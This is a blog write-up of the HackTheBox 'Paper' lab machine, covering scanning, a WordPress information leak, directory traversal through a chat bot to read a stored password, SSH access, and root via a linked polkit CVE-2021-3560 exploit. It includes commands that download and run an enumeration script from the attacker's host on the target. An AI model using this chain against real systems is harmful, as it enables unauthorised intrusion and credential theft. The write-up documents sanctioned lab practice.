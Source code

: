```yaml
---
title: Hackthebox - Paper (Easy)
date: 2023-03-13 12:00:00 +0100
categories: [HackTheBox, Write up]
tags: [linux, nmap, wordpress, cve, sudo, gobuster, vhost, htb, linpeas, wget, directory traversal]     # TAG names should always be lowercase
img_path: /img/HTB/Paper/
image: 1Paper.png
---
```




## Enumeration

### Nmap

Let's start scanning the box with nmap:
```bash
nmap -sC -sV -A ip_address
```

![nmap](nmap.png)

Since this is the first time I'm using nmap in a write-up, I'll provide a more detailed explanation. The `-A` flag is used for OS and version detection, script scanning, and traceroute, while `-sC` performs a script scan using the default set of scripts, and `-sV` is used for version scanning.

From the nmap output, we can see that the server has three open ports: 22, 80, and 443. While we need to inspect the webpage further, we've already noticed something strange from the nmap scan: the `TRACE` HTTP method is allowed. If [Cross Site Tracing](https://owasp.org/www-community/attacks/Cross_Site_Tracing)

### Web server
If we take a look at the port 80, there is a default page from apache hosted on CentOS.

![Web Page](image1.png)

At this point we can try to enumerate further with gobuster and intercept the HTTP request with burpusite to see if we can get something interesting.
Gobuster didn't find anything whereas burpsuite did:

![Burpsuite](Burpsuite.png)

In the response header there is a field `X-Backend-Server: office.paper`.

Let's add it in the `/etc/hosts`.

We can now navigate to `office.paper`:

![Web Page](officepaper.png)

Now we can enumerate this new webapp with gobuster again, using it not only for the directories search but for the virtual hosts too:
```bash
gobuster dir -u office.paper -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
```

![Gobuster dir](gobuster.png)

From the gobuster output we see it is a wordpress site.

```bash
gobuster vhost -u office.paper -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt --append-domain
```
![Gobuster vhost](vhost.png)
So we have a subdomain `chat.office.paper`, let's add it too in the `/etc/hosts` file.
![Chat webpage](chat.png)
It looks like we need a secret registration URL, but we don't have it.
Before trying to bypass this login form I would like to try a `wpscan` as we have seen before it is a wordpress site.
```bash
wpscan --url office.paper
```

![wpscan](wpcan.png)

Wpscan has found a wordpress version 5.2.3 which is insecure, let's try to search if there is some exploit for it.
Indeed:
[https://www.exploit-db.com/exploits/47690](https://www.exploit-db.com/exploits/47690).
Trying this vulnerabilities on our site we found something interesting, a secret post with the registration link!

![registrationlink](registrationlink.png)

Now we can register and login in the chat, and looking a the general chat we see that there is a bot who can list and read files in the filesystem because the bot is vulnerable to directory traversal! This part is a lot CTFs like, so I'll go a bit faster. Enumerating the filesystem we can find a file  `../hubot/.env` with a password, now we can try this password to login via ssh with the users we can see in the `/etc/passwd`.

### User flag

```terminal
ssh dwight@office.paper                                                                                                      
dwight@office.paper's password:                                                                                                  
Activate the web console with: systemctl enable --now cockpit.socket                                                             
                                                                                                                                 
Last login: Tue Mar 14 06:29:23 2023 from 10.10.14.7                                                                             
[dwight@paper ~]$ pwd                                                                                                            
/home/dwight                                                                                                                     
[dwight@paper ~]$ id                                                                                                             
uid=1004(dwight) gid=1004(dwight) groups=1004(dwight)                                                                            
[dwight@paper ~]$ ls                                                                                                             
bot_restart.sh  hubot  sales  user.txt                                                                                           
[dwight@paper ~]$ cat user.txt                                                                                                   
8113e09a19213dbf************
```


## Privilage Escalation

We now have several options, we can try to manually enumerate or we can run a script like `linPEAS` or `linenum`. Even if manually enumerate is really good as practice, on this machine I dont't recommend it. So, let's see if we have wget on the machine with `which wget`, we have it! we can now open a server on this machine with the `linpeas.sh` script and download it from the target machine.
On our machine let's move on the directory with `linpeas.sh` and run:
```bash
python -m http.server 2323
```
Let's download it from the target machine:
```bash
wget http://our_ip_address:2323/linpeas.sh
```
and after the download:
```terminal
[dwight@paper ~]$ wget http://$our_ip_address$:2323/linpeas.sh                                                                         
--2023-03-14 06:41:08--  http://$our_ip_address$:2323/linpeas.sh                                                                       
Connecting to $our_ip_address$:2323... connected.                                                                                      
HTTP request sent, awaiting response... 200 OK                                                                                   
Length: 765823 (748K) [text/x-sh]                                                                                                
Saving to: ‘linpeas.sh’                                                                                                          
                                                                                                                                 
linpeas.sh                          100%[=================================================================>] 747.87K   960KB/s   
 in 0.8s                                                                                                                         
                                                                                                                                 
2023-03-14 06:41:08 (960 KB/s) - ‘linpeas.sh’ saved [765823/765823]                                                              
                                                                                                                                 
[dwight@paper ~]$ chmod +x linpeas.sh                                                                                            
[dwight@paper ~]$ ./linpeas.sh
```
It will return that the sudo version 1.8.29 is vulnerable to Vulnerable to CVE-2021-3560.[https://github.com/Almorabea/Polkit-exploit/blob/main/CVE-2021-3560.py](https://github.com/Almorabea/Polkit-exploit/blob/main/CVE-2021-3560.py)

Paste and copy this script in the box:
> When copy and paste on vi is usually better enter paste mode with `:set paste`.
{: .prompt-tip}
```bash
vi pe.py
chmod +x pe.py
python3 pe.py
```
And BOOM! We did it!
```terminal
[root@paper ~]# id
uid=0(root) gid=0(root) groups=0(root)
[root@paper ~]# cat /root/root.txt
acd41857c8e614c70***************
```
